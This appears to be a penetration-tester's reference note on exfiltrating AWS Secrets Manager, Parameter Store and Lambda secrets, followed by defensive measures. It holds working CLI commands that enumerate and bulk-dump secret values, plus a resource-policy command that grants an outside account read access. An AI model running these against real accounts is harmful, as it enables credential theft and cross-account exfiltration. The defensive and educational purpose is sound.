

# SecretsManager and Parameter Store Data Exfiltration

## Introduction to AWS Secrets Management

Modern cloud applications rely heavily on centralized secret management to avoid hardcoding credentials in source code. AWS offers two primary services for this:
1. **AWS Secrets Manager**: Purpose-built for storing, rotating, and managing database credentials, API keys, and OAuth tokens. It natively integrates with KMS for encryption and allows automated rotation via Lambda.
2. **AWS Systems Manager (SSM) Parameter Store**: Originally designed for storing configuration data (plaintext), but widely used to store `SecureString` parameters (secrets encrypted via KMS).

For an attacker who has achieved an initial foothold (e.g., via SSRF, a compromised pod, or leaked IAM keys), extracting data from these services represents the ultimate prize. Access to these vaults typically yields lateral movement opportunities not just within AWS, but across external SaaS platforms, source code repositories, and production databases.

## IAM and KMS Dual-Layer Authorization

Extracting a secret is not as simple as having `secretsmanager:GetSecretValue`. Because these services encrypt secrets at rest using AWS Key Management Service (KMS), an attacker must satisfy a dual-layer authorization check:

1. **Service Permission**: The IAM identity must have `secretsmanager:GetSecretValue` or `ssm:GetParameter`.
2. **KMS Permission**: The IAM identity must also have `kms:Decrypt` for the specific KMS key used to encrypt the secret. (If the default AWS managed key `aws/secretsmanager` is used, KMS access is usually implicitly granted based on the secret's resource policy, but custom Customer Managed Keys (CMKs) require explicit IAM permissions).

## Attack Flow and Architecture Diagram

The exfiltration process is typically highly automated by attackers to dump all secrets quickly before incident responders can revoke the compromised IAM session.



## Step-by-Step Exploitation Methodology

### Phase 1: Discovery and Enumeration

The first step is mapping out all available secrets. Attackers look for intuitive naming conventions such as `prod/db/master`, `api/stripe_key`, or `github/pat`.

**For Secrets Manager**:
```bash
aws secretsmanager list-secrets --region us-east-1
```
*Output will list the ARNs, Names, and metadata of the secrets, but not the values.*

**For SSM Parameter Store**:
Attackers often use `describe-parameters` to find `SecureString` types.
```bash
aws ssm describe-parameters --region us-east-1
```
Alternatively, they can query by path if the organization uses hierarchical naming (e.g., `/prod/app1/`):
```bash
aws ssm get-parameters-by-path \
  --path "/prod/" \
  --recursive \
  --with-decryption \
  --region us-east-1
```

### Phase 2: Automated Extraction (Dumping)

Manual extraction is slow. Attackers use bash one-liners or tools like Pacu to iterate through the enumerated list and dump the plaintext values.

**Dumping all Secrets Manager values**:
```bash
for secret in $(aws secretsmanager list-secrets --query 'SecretList[*].Name' --output text); do
  echo "Extracting: $secret"
  aws secretsmanager get-secret-value --secret-id "$secret" --query 'SecretString' --output text
done
```

**Dumping SSM Parameters**:
```bash
for param in $(aws ssm describe-parameters --query 'Parameters[?Type==`SecureString`].Name' --output text); do
  echo "Extracting: $param"
  aws ssm get-parameter --name "$param" --with-decryption --query 'Parameter.Value' --output text
done
```

### Phase 3: Exploiting Resource-Based Policies

Unlike SSM Parameter Store, AWS Secrets Manager supports Resource-Based Policies. This means a secret can have a policy directly attached to it granting cross-account access.

If an attacker has `secretsmanager:PutResourcePolicy` permissions on a secret, they can modify the policy to grant their external AWS account full read access.
```bash
aws secretsmanager put-resource-policy \
  --secret-id "prod/db/credentials" \
  --resource-policy '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Principal":{"AWS":"arn:aws:iam::999999999999:root"},"Action":"secretsmanager:GetSecretValue","Resource":"*"}]}'
```
Once applied, the attacker can query the secret directly from their own AWS environment, completely bypassing the victim's network and leaving minimal CloudTrail traces in the victim's local account execution logs.

### Phase 4: Lambda Environment Variable Pivoting

Often, developers pass secrets into AWS Lambda functions as environment variables rather than fetching them dynamically at runtime. If an attacker compromises an identity with `lambda:GetFunction` or `lambda:GetFunctionConfiguration`, they can extract secrets without ever interacting with Secrets Manager or KMS directly.

```bash
aws lambda get-function-configuration \
  --function-name ProcessPayments \
  --query 'Environment.Variables'
```
*Result:*
```json
{
    "DB_PASS": "PlainTextPasswordStoredInLambdaEnv",
    "API_KEY": "sk_live_xxxxxxxxxxx"
}
```

## Mitigation and Defense Strategies

Securing secret stores requires strict access control boundaries and rigorous monitoring.

1. **Principle of Least Privilege (IAM)**:
   Never grant `secretsmanager:GetSecretValue` or `ssm:GetParameter*` globally (`*`). Applications should only be granted access to the specific ARNs they require. Use path-based ARNs in IAM policies (e.g., `arn:aws:ssm:region:account:parameter/prod/app1/*`).

2. **Customer Managed Keys (CMK) Separation**:
   Do not use the default AWS managed key (`aws/secretsmanager`). Create dedicated KMS CMKs for different environments or applications. This enforces the dual-layer check. Even if an attacker has `GetSecretValue` on all secrets, they cannot read them unless they also have `kms:Decrypt` for the specific CMK protecting that secret.

3. **CloudTrail Alerting**:
   Configure EventBridge to trigger high-severity alerts for `GetSecretValue` and `GetParameter` calls that originate from unexpected IAM identities (e.g., developers in production, or unauthenticated roles). Set up threshold alerts for high volumes of API calls (e.g., dumping).

4. **Automated Secret Rotation**:
   Leverage Secrets Manager's native rotation capabilities. If a secret is leaked, frequent automated rotation limits the validity window of the compromised credential, closing the window of opportunity for the attacker.

## Chaining Opportunities

- **[[08 - EKS Cluster Takeover from Pod to Node to IAM]]**: Node roles often have broad read permissions to SSM or Secrets Manager to bootstrap cluster infrastructure.
- **[[06 - Cognito Misconfigurations and Privilege Escalation]]**: Unauthenticated or weakly authenticated Cognito roles are frequently used to query SSM for public configurations, but misconfigurations can allow them to read `SecureString` parameters.
- **Serverless Exploitation**: Lambda functions are prime targets for extracting environment variables containing secrets, completely bypassing the actual Secrets Manager APIs.

## Related Notes
- [[02 - AWS STS and Cross-Account AssumeRole Abuse]]
- [[07 - AWS RDS Database Snapshots and Public Exposure]]
- [[09 - AWS CloudTrail Evasion and Log Manipulation]]
